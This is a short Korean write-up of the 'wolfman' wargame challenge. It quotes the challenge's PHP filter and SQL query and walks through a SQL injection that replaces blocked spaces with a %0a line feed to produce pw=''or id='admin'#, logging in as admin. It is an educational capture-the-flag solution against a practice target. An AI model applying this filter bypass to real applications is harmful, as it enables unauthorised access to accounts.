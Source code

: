 <img width="222" alt="스크린샷 2020-01-16 오후 5 44 51" src="https://user-images.githubusercontent.com/54495632/72508550-317a6000-3889-11ea-8ee0-5e7c33dca96e.png">

5번 wolfman

<img width="650" alt="스크린샷 2020-01-16 오후 5 45 00" src="https://user-images.githubusercontent.com/54495632/72508556-363f1400-3889-11ea-9372-4c3f5275c94a.png">

if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
pw에서 공백이 필터링 되는 문제이다.
공백 우회에는 많은 방법이 있는데 여기서는 Line feed %0a URL을 공백대신 사용했다.

 $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'";  
pw를 get으로 받는 쿼리. id엔 이미 guest가 입력되어 있다.
pw를 false로 만들고 or 과 주석을 이용했다.

if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
if($result['id'] == 'admin') solve("wolfman"); 
id 가 admin인 경우 solve가 된다.

 $query = "select id from prob_wolfman where id='guest' and pw=''or id='admin'# -> injection할 쿼리문 예상.

공백 위치에 %0a를 대신 적어 준다.

<img width="741" alt="스크린샷 2020-01-16 오후 5 53 50" src="https://user-images.githubusercontent.com/54495632/72508755-9cc43200-3889-11ea-99ac-669f74fa7b5c.png">
